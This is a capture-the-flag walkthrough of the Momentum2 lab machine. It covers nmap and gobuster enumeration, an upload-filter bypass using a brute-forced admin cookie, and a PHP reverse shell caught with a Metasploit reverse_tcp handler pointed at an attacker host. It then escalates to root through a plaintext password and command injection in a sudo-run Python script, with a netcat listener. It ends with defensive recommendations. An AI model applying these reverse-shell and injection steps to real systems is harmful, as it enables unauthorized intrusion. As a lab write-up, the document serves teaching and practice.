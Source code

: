 # Momentum2 CTF – Summary Walkthrough  

A full text-based breakdown of the Momentum2 vulnerable machine.  
This box exposed weak cookie-based authentication, a bypassed upload filter, plaintext credentials, and a vulnerable Python script that led to root.  

---

##  Discovery  
- Ran nmap scan:  
  nmap -sV -A <ip>
  
Open ports:
22 (SSH)
80 (HTTP – Web server)

##  Enumeration
Ran gobuster:
gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

Found:
/index.html
/ajax.php
/ajax.php.bak
/dashboard.html (file upload)
/owls (uploads)

Inside /ajax.php.bak:
Learned about admin cookie requirement
Extra uppercase letter needed at end
New POST param secure=val1d required

##  Foothold
Used BurpSuite to modify upload request:
Added secure=val1d
Appended valid admin cookie (bruteforced with Burp Intruder)
Uploaded PHP reverse shell to /owls

Used Metasploit handler to catch shell:
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-port>
exploit
✅ Gained access as www-data

##  Privilege Escalation
Step 1 — www-data → athena
Found /home/athena/password-reminder.txt
Contained plaintext password

Switched user:
su athena

Step 2 — athena → root
sudo -l showed athena could run /home/team-tasks/cookie-gen.py as root

Script vulnerable to command injection: Injected reverse shell;
caught with netcat on attacker terminal: nc -lvnp <attacker-port>

✅ Root shell obtained

##  Recommendations
Authentication & Authorization
Avoid static cookie authentication

Enforce MFA for admin areas

Credential Security
Never store passwords in plaintext

Apply strict file permissions

Secure Coding
Sanitize Python scripts against command injection

Validate all user-controlled input


👉 View the Medium post here: [https://medium.com/@basitolasubomibalogun/momentum2-ctf-full-technical-walkthrough-af4c114c9de3]
